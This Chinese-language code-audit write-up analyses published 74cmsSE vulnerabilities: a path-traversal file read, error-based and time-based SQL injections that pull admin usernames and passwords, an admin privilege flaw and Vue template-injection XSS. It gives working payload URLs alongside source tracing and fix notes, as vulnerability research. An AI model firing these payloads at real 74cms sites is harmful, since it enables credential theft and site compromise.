# 奇安信攻防社区-代码审计&漏洞分析：74cmsSE 系列

## 一、前言

本文对 74cmsSE 进行代码审计，并对近期的相关漏洞进行调试分析，学习一波。

## 二、相关漏洞搜集

[https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=74cmsse](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=74cmsse)  


CNVD  


## 三、环境介绍

本地审计使用 MAMP 集成搭建

```txt
Apache 2.4.54
Mysql 5.7.39
PHP 7.3.33
```

## 四、漏洞分析

### v3.4.1 任意文件读取

漏洞信息：  
[CVE - CVE-2022-26271 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-26271)  
[74cmsSEv3.4.1 Arbitrary File Read Vulnerability · Issue #1 · N1ce759/74cmsSE-Arbitrary-File-Reading (github.com)](https://github.com/N1ce759/74cmsSE-Arbitrary-File-Reading/issues/1)  
漏洞位于 Download.php 文件中的 fread() 和 fopen() 函数中，对输入的内容 $url 没有做到完全的检测过滤，进而导致读取任意文件。

Payload：

```rb
/index.php/index/download/index?name=index.php&amp;url=../../application/database.php
```



代码分析：  
定位到核心函数 index() 处，$url 和 $ourput\_filename 参数均由封装的 get 方法获取，跟进到 request()->get() 里。  


从 `$_GET` 变量中获取到请求的数据并存储在自身的属性 $get 中，再跟进到 input() 方法中。  


input() 主要对传入的格式进行 trim() 操作，没有其他过滤。  


因此这里 fopen() 中的 $url 可控且没有安全过滤，简单构造即可读取任意文件。  


### v3.5.1 SQL 注入｜Jobfairol.php

漏洞信息：  
[CNVD-2022-61443 - 国家信息安全漏洞共享平台 (cnvd.org.cn)](https://www.cnvd.org.cn/flaw/show/CNVD-2022-61443)  
[CVE - CVE-2022-33095 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33095)

文件路径：v1\_0/controller/home/Jobfairol.php，keyword 参数

Payload：

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword=' (select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```



#### 代码分析

定位到关键函数 resumelist() ，接收四个参数，其中 $keyword 接收字符串格式，这里输入 sec 作为测试字符进行跟踪。  


一路跟进到 PDO 处理模块中，最终整个构造好的 SQL 语句如下：

```sql
SELECT `b`.`id` FROM `qs_jobfair_online_participate` `a` RIGHT JOIN `qs_resume_search_key` `b` ON `a`.`uid`=`b`.`uid` WHERE  `a`.`jobfair_id` = 1  AND `a`.`utype` = 2  AND `a`.`audit` = 1  AND (  MATCH (`intention_jobs`) AGAINST ('sec' IN BOOLEAN MODE) ) ORDER BY `b`.`refreshtime` DESC LIMIT 0,10 
```



#### MATCH AGAINST 结构

在上面的 SQL 语句中可以注意到 MATCH AGAINST 结构。我们简化这个 SQL 语句进行分析。

```sql
SELECT * FROM qs_resume_search_key WHERE ( MATCH (intention_jobs) AGAINST ('sec' IN BOOLEAN MODE))
```

查询[相关资料](https://mariadb.com/kb/en/match-against/) 后得知 `MATCH AGAINST` 是一种用于在全文索引上执行全文检索的结构，格式如下：

```rb
MATCH (col1,col2,...) AGAINST (expr [search_modifier])
```

-   col 表示要搜索的列
-   expr 表示检索的关键字
-   modifier 表示搜索的模式（可选）  
    其中 intention\_jobs 就是搜索的列，sec 就是待检索的关键字，BOOLEAN 模式表示支持布尔操作符和修饰符。

来到数据库中测试 `expr` 位置是否可插入查询语句，使用报错查询可以成功执行。那么下一步就可以构造可利用的 SQL 语句了。  


#### 检查过滤代码

跟进查看，这里只对输入做了 trim 操作。  
  
经过一系列闭合操作，就可以构造出上述的 Payload 了。

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword=' (select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```

#### 深入思考

这里有个疑问，使用了PDO还会有注入？  
跟进 SQL 执行的过程，发现 $sql 参数在预处理前已完成拼接，没有进行绑定的操作，后续直接 exec 了，估计是这个原因（如果不是的话，希望大佬点拨下）  


#### 后续的修复代码

查看最新的源码（版本3.28.0），过滤使用了 addslashes 操作。  


#### 深入思考\*2

绕过 addslashes，一般配合代码中其他的操作，比如代码后还有urldecode、base64\_decode等。或者是在GBK编码下使用宽字节注入。

修改数据库编码后，跟进代码发现，在使用htmlspecialchars函数进行过滤操作时，我传入的值直接没了，挺神奇的，暂时找不到原因，不然在GBK环境下可以实现宽字节注入。

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword='%df'%2b(select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```



### v3.5.1 SQL 注入｜Job.php

漏洞信息：  
[CVE - CVE-2022-33092 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33092)

文件路径：v1\_0/controller/home/Job.php，keyword 参数

Payload：

```rb
/index.php/v1_0/home/job/index?keyword='+(select+updatexml(0,concat(0x1,(select/**/user())),0))+'
```



#### 代码分析

基于前一个 sql 注入的思路，找到可控点，在 index 函数重点关注如下四个：

```php
$search_type = input('get.search_type/s', '', 'trim');
$keyword = input('get.keyword/s', '', 'trim');
$tag = input('get.tag/s', '', 'trim');
$sort = input('get.sort/s', '', 'trim');
```



这里先分析 $keyword 参数，传入值并跟踪，得到如下sql查询语句：

```sql
SELECT a.id,company_id,refreshtime,stick,MATCH (`company_nature`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score1,MATCH (`jobname`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score2,MATCH (`companyname`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score3 FROM `qs_job_search_key` `a` WHERE  (  MATCH (`jobname`,`companyname`,`company_nature`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) ) ORDER BY `score1` DESC,`score2` DESC,`score3` DESC,`refreshtime` DESC LIMIT 0,10
```

可以发现也是 MATCH AGAINST 结构，$keyword 的触发点同上一个 sql 漏洞。

根据语句，构造出简单 Payload 并进行跟踪。由于有四个 $keyword 输入点，这里的 sleep(2) 将会睡眠 8 秒。

```sql
'+(select+sleep(2))+'

SELECT a.id,company_id,refreshtime,stick,MATCH (`company_nature`) AGAINST ('+' +(select +sleep(2)) +'' IN BOOLEAN MODE) ......
```



#### 其他参数

$tag 参数，正常查询语句如下

```sql
SELECT `a`.`id`,`company_id`,`stick`,`refreshtime` FROM `qs_job_search_rtime` `a` WHERE  (   FIND_IN_SET('sectag',`tag`) ) ORDER BY `stick` DESC,`refreshtime` DESC LIMIT 0,10
```

经过测试，发现输入的内容会被逗号 `,` 隔开  


查看该函数的定义，若要进行闭合，需要逗号构造，但是上述测试发现使用不了逗号。（暂时没有其他思路）  


$sort 参数只有在特定字段时会出现在语句中，暂未发现利用思路。  


map() 函数中的注入漏洞也是一样，出现在 $keyword 中  


### v3.5.1 SQL 注入｜Resume.php

剩下几个漏洞触发点都是相同的 $keyword ，故不再做分析。  


### v3.12.0 越权漏洞

漏洞信息：  
[CVE - CVE-2022-41471 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41471)  
简而言之，就是同为系统管理员可以修改其他管理员的密码。

漏洞复现：  
创建角色权限，可以访问系统模块即可。随后添加一名管理员 ceshi1 角色设置为刚创建的 ceshi。  


以 ceshi1 用户登录后台，可以直接操作修改 admin 的密码  


代码分析：  
查看触发的函数 edit() ，路径位于 /application/apiadmin/controller/Admin.php  
跟踪发现，其中并没有完善的鉴权机制，只要能访问到这个页面就可以进行修改。  


### v3.12.0 XSS ｜Notice.php

漏洞信息：  
[CVE - CVE-2022-41472 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41472)

Payload：  
利用 Vue.JS 特性实现 DOM XSS

```rb
{{$on.constructor('alert(1)')()}}
{{alert(1)}}
```



代码分析：  
后端对输入点只做了 trim 过滤操作，前端也没有有效的过滤  


前端也没有发现相关的过滤，搜索到了 dompurify 关键字，但是没有使用。  


#### Vue.js 模版注入（DOM XSS）

原理：  
Vue.js 是一个客户端模板框架，会将用户的输入嵌入到这些模板中，通过构造恶意输入，可导致被 Vue.js 错误解析执行。  
[参考](https://www.freebuf.com/articles/web/257944.html)

后面几个XSS基本上都是通过 vue.js 模版注入触发 DOM XSS，只是注入点不同，不再展开分析了。

### v3.13.0 文件上传

这里没成功，跟进发现有对后缀名进行限制，后续再研究看看。  


## 五、总结

通篇审下来，感觉最重要的就是代码逻辑和过滤操作，上述漏洞基本上都是错误逻辑和未健全的过滤机制导致的，例如：SQL查询使用了PDO但是没进行绑定而直接拼接了，文件操作类函数未对输入点验证 ../ 这种字符等等。因此，日后的审计无论从可控点或者高危函数出发，把握好每一条逻辑再结合绕过就对了。
